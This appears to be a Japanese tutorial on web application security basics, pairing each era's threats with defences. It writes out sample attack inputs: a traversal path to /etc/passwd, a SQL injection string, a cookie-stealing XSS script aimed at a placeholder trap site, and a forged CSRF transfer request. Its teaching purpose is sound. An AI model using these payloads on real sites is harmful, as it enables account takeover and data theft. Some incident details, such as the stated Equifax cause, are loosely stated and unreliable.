





**Webアプリケーションセキュリティの基本**
# Part 1：脅威の変遷と設計原則

---

## 目次

1. [Webアプリケーションセキュリティの変遷](#1-webアプリケーションセキュリティの変遷)
   - 1.1 [1990年代：静的Web時代](#11-1990年代静的web時代)
   - 1.2 [2000年代前半：動的Webの台頭](#12-2000年代前半動的webの台頭)
   - 1.3 [2000年代後半〜2010年代：アプリケーション時代](#13-2000年代後半2010年代アプリケーション時代)
   - 1.4 [2010年代後半〜2020年代：クラウド・API時代](#14-2010年代後半2020年代クラウドapi時代)
   - 1.5 [2020年代以降：AI・ゼロトラスト時代](#15-2020年代以降aiゼロトラスト時代)
2. [各時代の主な脅威と防御の具体例](#2-各時代の主な脅威と防御の具体例)
   - 2.1 [1990年代：ディレクトリトラバーサル](#21-1990年代ディレクトリトラバーサル)
   - 2.2 [2000年代：SQLインジェクション](#22-2000年代sqlインジェクション)
   - 2.3 [2010年代：XSS・CSRF](#23-2010年代xsscsrf)
   - 2.4 [2020年代：API BOLA（オブジェクトレベル認可の欠如）](#24-2020年代api-bolaオブジェクトレベル認可の欠如)
3. [セキュリティ設計の5原則](#3-セキュリティ設計の5原則)
   - 3.1 [最小権限（Least Privilege）](#31-最小権限least-privilege)
   - 3.2 [多層防御（Defense in Depth）](#32-多層防御defense-in-depth)
   - 3.3 [フェイルセキュア（Fail Secure）](#33-フェイルセキュアfail-secure)
   - 3.4 [セキュアデフォルト（Secure Defaults）](#34-セキュアデフォルトsecure-defaults)
   - 3.5 [オープン設計（Open Design）](#35-オープン設計open-design)
4. [セキュアアーキテクチャ設計](#4-セキュアアーキテクチャ設計)
   - 4.1 [レイヤード構造](#41-レイヤード構造)
   - 4.2 [ゼロトラストモデル](#42-ゼロトラストモデル)
   - 4.3 [通信保護とWAF](#43-通信保護とwaf)
   - 4.4 [ネットワーク分離とセグメンテーション](#44-ネットワーク分離とセグメンテーション)
   - 4.5 [一般構成 vs セキュア構成の比較](#45-一般構成-vs-セキュア構成の比較)

---

<br>

## 1. Webアプリケーションセキュリティの変遷

### 1.1 1990年代：静的Web時代

インターネット黎明期のWebはHTMLの静的ページが中心で、セキュリティへの意識は非常に低い時代でした。1994年にNetscapeがHTTPS（SSL）を導入したものの、パスワードの平文保存が一般的で、ディレクトリトラバーサルや基本的なインジェクション攻撃が主な脅威でした。対策はネットワークファイアウォールや.htaccessによる基本認証にとどまり、アプリケーション層のセキュリティ対策はほぼ存在しませんでした。

---

### 1.2 2000年代前半：動的Webの台頭

CGIやPHPによるサーバサイドスクリプト、JavaScriptによるインタラクティブなUIが普及し、Webは急速に複雑化しました。それに伴い、SQLインジェクション（1998年頃）、XSS（クロスサイトスクリプティング）、セッションハイジャッキングといった深刻な脅威が現れます。この時代の重要なマイルストーンとして、2001年のOWASP設立と2003年のOWASP Top 10初版の公開が挙げられます。入力検証やエスケープ処理といったセキュアコーディングの概念が生まれ、WAF（Webアプリケーションファイアウォール）も初めて登場しました。

---

### 1.3 2000年代後半〜2010年代：アプリケーション時代

AJAXやSPAフレームワーク（Angular・React）、REST APIの普及により、Webはよりリッチで複雑なアプリケーションへと進化しました。脅威もCSRF、XML外部エンティティ攻撃、モバイル連携によるAPI攻撃面の拡大と多様化します。対策面ではOWASP Top 10の継続的な更新、Secure/HttpOnlyクッキーによるセッション管理強化、CSP・HSTSヘッダの導入、ペネトレーションテストの標準化が進みました。TLSも1.0から1.2へと移行し、通信の安全性が高まりました。

---

### 1.4 2010年代後半〜2020年代：クラウド・API時代

マイクロサービス、コンテナ（Docker/Kubernetes）、サーバレスアーキテクチャの普及により、システムの分散化が進みました。OAuth2やJWTを用いたAPI認証が標準化される一方、API脆弱性（Broken Object Level Authorization）やサプライチェーン攻撃（Log4Shell：2021年）、ランサムウェアが主要脅威として台頭します。これに対してDevSecOps（開発プロセスへのセキュリティ組み込み）、ゼロトラストアーキテクチャ、WAAP（WebアプリケーションとAPIの統合保護）といった包括的なアプローチが広まりました。

---

### 1.5 2020年代以降：AI・ゼロトラスト時代

クラウドネイティブやLLM統合アプリが当たり前になった現在、攻撃側もAIを活用し、フィッシングの高度化や自動化されたエクスプロイトが急増しています（2025年時点でAIを活用した攻撃の成功率は72%超とも報告されています）。防御側も同様にAI・ML技術を取り入れた脅威インテリジェンスや攻撃を予測するプリエンプティブ防御へとシフトしており、量子耐性暗号の検討も始まっています。

---

### まとめ

| 時代 | 技術 | 主な脅威 | 主な対策 |
|------|------|----------|----------|
| 1990年代 | 静的HTML | ディレクトリトラバーサル | ファイアウォール |
| 2000年代前半 | CGI/PHP/JS | SQLi・XSS | OWASP・WAF |
| 2000年代後半〜 | AJAX・SPA・API | CSRF・API攻撃 | CSP・ペンテスト |
| 2010年代後半〜 | クラウド・コンテナ | サプライチェーン攻撃 | DevSecOps・ゼロトラスト |
| 2020年代〜 | AI・クラウドネイティブ | AI活用攻撃 | AI防御・プリエンプティブ対策 |

技術の進化が「静的→動的→分散型」へと攻撃面を拡大させてきた一方、対策も「ファイアウォール中心→アプリ内制御→自動化・予測型防御」へと進化し続けています。


---

<br>
<br>

## 2. 各時代の主な脅威と防御の具体例

### 2.1 1990年代：ディレクトリトラバーサル

#### 攻撃とは？
Webサーバーはファイルをパスで管理しています。`../` という記法は「一つ上のフォルダに移動する」という意味で、これを悪用してURLに `../../../etc/passwd` のように繰り返し入力することで、公開するつもりのない場所（OSのパスワードファイルなど）まで遡って覗き見ることができます。

```
本来アクセスできる場所:  /var/www/html/files/report.pdf
攻撃者が狙う場所:        /var/www/html/files/../../../etc/passwd
                                              ↑ここで3階層上に遡る
```

#### 防御：入力サニタイズ
受け取ったパスに `../` が含まれていれば、処理する前に除去・拒否します。

```
ユーザー入力
    ↓
"../" を含む？ → YES → 即リジェクト ❌
    ↓ NO
安全なパスとして処理 → ファイルを返す ✅
```

---


### 2.2 2000年代：SQLインジェクション

#### 攻撃とは？
ログインフォームなどのユーザー入力が、そのままデータベースへの命令文（SQL）に組み込まれる実装になっている場合、攻撃者は入力欄に `' OR '1'='1` のような文字列を仕込むことで、SQL文の意味を書き換えることができます。

```
【開発者が意図したSQL】
SELECT * FROM users WHERE id = '入力値'

【攻撃者が ' OR '1'='1 を入力した場合】
SELECT * FROM users WHERE id = '' OR '1'='1'
                                    ↑ 常にTRUEになる条件を追加
→ 全ユーザーのデータが返ってしまう ❌
```

#### 防御：プリペアドステートメント
SQLの「構造」を先に確定させ、ユーザー入力は「値」としてのみ扱うことで、命令文として解釈されないようにします。

```
SQL: SELECT * FROM users WHERE id = ?  ← 構造を先に固定
                                    ↑
             ユーザー入力はここに「値」として埋め込まれる
             → どんな文字列が来ても命令として実行されない ✅
```

---


### 2.3 2010年代：XSS・CSRF

#### XSSとは？
掲示板やコメント欄などの入力内容をそのまま画面に表示するWebサイトに対し、`<script>悪意あるコード</script>` を投稿することで、そのページを閲覧した別のユーザーのブラウザ上でスクリプトを実行させる攻撃です。Cookie（ログイン情報）の盗難などに悪用されます。

```
攻撃者が投稿: <script>document.location='罠サイト?c='+document.cookie</script>
                                                              ↑ログイン情報を送信
被害者が閲覧 → ブラウザがそのままスクリプトを実行 ❌
```

#### 防御：出力エンコード
HTMLとして特別な意味を持つ文字を、無害な文字列に変換してから表示します。

```
入力: <script>...</script>
         ↓ エンコード処理
表示: &lt;script&gt;...&lt;/script&gt;
     → ブラウザが「文字列」として表示するだけで実行しない ✅
```

---

#### CSRFとは？
ログイン中のユーザーを罠サイトへ誘導し、本人が気づかないうちに正規サイトへのリクエスト（送金・パスワード変更など）を勝手に送信させる攻撃です。ブラウザはログイン中のCookieを自動送信するため、サーバー側では正規ユーザーからのリクエストと区別できません。

```
① ユーザーが銀行サイトにログイン中
② 攻撃者の罠サイトを開く
③ 罠サイトが裏で銀行サイトへリクエストを送信
   POST /transfer?to=攻撃者&amount=100000
④ ブラウザが自動でCookieを付与 → 銀行サーバーは正規リクエストと判断 ❌
```

#### 防御：CSRFトークン
サーバーが発行したランダムな文字列（トークン）をフォームに埋め込み、送信時に照合します。罠サイトはこのトークンを知ることができないため、偽のリクエストを弾くことができます。

```
① サーバーがトークン発行（例: "x7k2p"）→ フォームの隠し項目に埋め込み
② ユーザーが送信 → トークンも一緒に送られる
③ サーバーが照合:
   一致 → 正規リクエストとして処理 ✅
   不一致 or なし → 罠サイトからの偽リクエストとして拒否 ❌
```

---


### 2.4 2020年代：API BOLA（オブジェクトレベル認可の欠如）

#### 攻撃とは？
APIはURLにリソースのIDを含む設計が一般的です（例：`/api/users/123`）。サーバーが「ログインしているかどうか」しか確認せず、「そのリソースが自分のものかどうか」を確認していない場合、IDを書き換えるだけで他人のデータに自由にアクセスできてしまいます。

```
正規のリクエスト: GET /api/users/456  ← 自分（user_id: 456）のデータ ✅
攻撃者の操作:    GET /api/users/123  ← 他人（user_id: 123）のデータ
                              ↑ IDを書き換えるだけ
→ 認証（ログイン確認）は通るが、認可（権限確認）が抜けている ❌
```

#### 防御：オブジェクトレベルの認可チェック
リクエストされたリソースのオーナーと、リクエストしたユーザーが一致するかをAPI処理の中で必ず確認します。

```
リクエスト: GET /api/users/123
    ↓
JWTから「リクエストしたユーザーID」を取得 → 456
リソース（user 123）の「オーナーID」を確認 → 123
    ↓
456 ＝ 123？
NO → アクセス拒否 ❌（他人のデータは見せない）
YES → データを返す ✅
```

---


### まとめ：防御の本質

- どの攻撃にも共通するのは、**「信頼すべきでない入力やリクエストを、検証せずに処理してしまう」** という根本的な問題です。
- 攻撃の定義を理解した上で「どの段階で・何を・どう検証するか」を設計することが、セキュリティ対策の出発点になります。


---

<br>
<br>

## 3. セキュリティ設計の5原則

「安全なシステム」は後付けの対策だけでは実現できません。設計の段階から組み込むべき考え方が5つあります。

### 3.1 最小権限（Least Privilege）

#### 考え方
ユーザーやシステムには、**その業務に必要な最小限の権限だけを与える**という原則です。「使わないかもしれないから念のため広めに」は禁物です。

#### 具体例
```
❌ 悪い例: アプリがデータベースに接続する際、管理者権限を使う
           → アプリが乗っ取られると、DB全体を削除・改ざん可能

✅ 良い例: アプリに「読み取り専用」権限だけを付与する
           → 乗っ取られても、データを盗まれる被害にとどまる
```

#### 守らなかった実例
2021年のColonial Pipeline攻撃では、権限管理の甘さがランサムウェアの被害を拡大させ、米国東海岸の燃料供給が数日にわたって停止しました。

---


### 3.2 多層防御（Defense in Depth）

#### 考え方
セキュリティを「一枚の壁」で守ろうとするのではなく、**複数の独立した防御層を重ねる**という原則です。1層が突破されることを前提に設計します。

#### 具体例
```
攻撃者
  ↓
【第1層】 WAF（不正リクエストをブロック）
  ↓ 突破されたとしても…
【第2層】 アプリの入力検証（不正データを拒否）
  ↓ 突破されたとしても…
【第3層】 DBのアクセス制御（権限外の操作を拒否）
  ↓ 突破されたとしても…
【第4層】 ログ・監視（異常を検知してアラート）
```

#### 守らなかった実例
2017年のEquifax情報漏洩では、WAFの設定ミスという単一障害が原因で、1億4千万人分の個人情報が流出しました。多層で守られていれば被害は防げた可能性があります。

---


### 3.3 フェイルセキュア（Fail Secure）

#### 考え方
エラーや予期しない障害が発生したとき、**「失敗した場合は拒否する」をデフォルトにする**という原則です。また、エラーメッセージに内部情報を含めないことも重要です。

#### 具体例
```
❌ 悪い例（失敗時に情報を漏らす）
   ログイン失敗 → 「そのメールアドレスは登録されていません」
                    ↑ 攻撃者が「有効なアカウント」を特定するヒントになる

✅ 良い例（失敗時に何も教えない）
   ログイン失敗 → 「メールアドレスまたはパスワードが正しくありません」
                    ↑ 有効かどうかを判断できない

❌ 悪い例（エラーに内部情報を含める）
   エラー発生 → スタックトレース（エラーの詳細）をそのままブラウザに表示
                 ↑ SQLのテーブル名・コードの構造が攻撃者に筒抜け
```

---


### 3.4 セキュアデフォルト（Secure Defaults）

#### 考え方
システムの初期設定を「最も安全な状態」にしておくという原則です。**セキュリティを有効にするために設定変更が必要、ではなく、無効にするために設定変更が必要**という設計にします。

#### 具体例
```
❌ 悪い例: デフォルトでHTTP（暗号化なし）で動作する
           → 設定を知らない管理者が放置すると、通信が丸見えになる

✅ 良い例: デフォルトでHSTSを有効化（HTTPS強制）
           → 何もしなくても安全な通信が保証される
```

#### 守らなかった実例
2023年のMoveItファイル転送ツールの被害では、デフォルト設定の脆弱性を突かれ、数百万件の個人情報が流出しました。

---


### 3.5 オープン設計（Open Design）

#### 考え方
「仕組みを秘密にすることでセキュリティを保つ」という設計に頼らないという原則です。**暗号化アルゴリズムなどは公開・検証済みの標準規格を使う**ことで、より堅牢な安全性を実現します。

#### 具体例
```
❌ 悪い例: 自社オリジナルの暗号方式を使う
           → 公開検証を経ていないため、見落とした欠陥を突かれやすい
           → 設計者が退職・情報漏洩すると全て無効化される

✅ 良い例: OpenSSL、OAuth2などの公開・標準化された仕組みを使う
           → 世界中の専門家が検証・改善し続けているため、信頼性が高い
```

---


### まとめ

| 原則 | 一言で言うと | 守らないとどうなるか |
|------|------------|-------------------|
| 最小権限 | 必要なものだけ渡す | 侵害が全体に波及する |
| 多層防御 | 一枚の壁に頼らない | 1箇所の突破で全滅する |
| フェイルセキュア | 失敗時は閉じる | エラーが攻撃の手がかりになる |
| セキュアデフォルト | 最初から安全にしておく | 設定ミスが即脆弱性になる |
| オープン設計 | 秘密主義に頼らない | 独自実装が簡単に破られる |

これら5つの原則は独立したものではなく、組み合わせて実践することで初めて「設計レベルで安全なシステム」が実現します。


---

<br>
<br>

## 4. セキュアアーキテクチャ設計

### 4.1 レイヤード構造

フロントエンド・バックエンド・データ・インフラを論理的・物理的に分離します。1つの層が侵害されても、他の層への影響を最小限に抑えることが目的です。各層ではそれぞれ独立した認証・検証を行います。



> 各層の間に検証ポイントを設けることで、1層突破が即全体の崩壊につながらない構造を実現します。

---


### 4.2 ゼロトラストモデル

「社内ネットワークだから安全」「認証済みだから信頼する」という前提を排除し、**すべての通信を毎回検証する**モデルです。
内部サービス間の通信であっても例外はありません。



> サービスAが侵害されても、そこからDBへ直接アクセスすることはできません。横方向への侵害拡大（ラテラルムーブメント）を防ぎます。

---


### 4.3 通信保護とWAF

外部からの通信はすべてWAFで検査し、内部通信はTLS暗号化を徹底します。公開するエンドポイントを最小限に絞ることも重要です。



---


### 4.4 ネットワーク分離とセグメンテーション

ネットワークをサブネット（区画）に分割し、区画間の通信を厳密に制御します。侵害が発生した場合でも、該当区画だけを隔離することで被害を封じ込めます。



---


### 4.5 一般構成 vs セキュア構成の比較



---


### まとめ

これら4つの設計アプローチは、それぞれ独立して機能しますが、組み合わせることで真に堅牢なアーキテクチャになります。

| 設計アプローチ | 守るもの | 侵害時の効果 |
|--------------|---------|------------|
| レイヤード構造 | 層をまたいだ侵害拡大 | 被害を1層内に封じ込める |
| ゼロトラスト | 横方向への侵害拡大 | サービス間の不正移動を防ぐ |
| WAF・TLS | 外部からの攻撃通信 | 既知の攻撃パターンを入口で遮断 |
| ネットワーク分離 | 区画をまたいだアクセス | 侵害区画だけを即座に隔離できる |


---

<br>
<br>

